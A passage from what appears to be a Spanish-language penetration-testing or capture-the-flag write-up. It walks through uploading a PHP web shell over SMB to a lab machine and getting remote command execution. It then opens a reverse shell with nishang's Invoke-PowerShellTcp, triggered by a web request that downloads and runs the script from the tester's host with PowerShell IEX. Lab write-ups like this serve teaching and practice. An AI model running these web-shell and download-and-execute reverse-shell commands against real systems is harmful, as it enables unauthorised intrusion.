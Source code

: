 ## RCE

Al probar directamente la carga de un archivo que pudiera brindar ejecución remota de instrucciones en el servicio de smb, se identificó que en el escenario planteado no fueron funcionales las shells bajo las extensiones asp y aspx, dado que previamente se identificó el uso de PHP, se probó una shell de este tipo.

![Carga de shell en php](./images/exploit_12.png)

Obteniendo así ejecución de comandos.

![Ejecución de comandos vía web](./images/exploit_13.png)

Para entablar una reverse shell, inicialmente se buscó cargar el binario de netcat en la máquina, método que no funcionó en esta ocasión, razón por la que se busco invocar la revershell de powershell ofrecida por [nishang](https://github.com/samratashok/nishang). Disponible tanto en el repositorio como en el manejador de paquetes de kali (`sudo apt install nishang`).

Después de generar una copia y modificar el archivo `/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1`, añadiendo hasta el final la llamada a la función `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443` exponiéndola mediante un servicio web, se entabló una reverse shell satisfactoriamente mediante la invocación de la request `http://10.10.10.97:8808/shell.php?cmd=powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')`.

![Reverse shell entablada](./images/exploit_14.png)
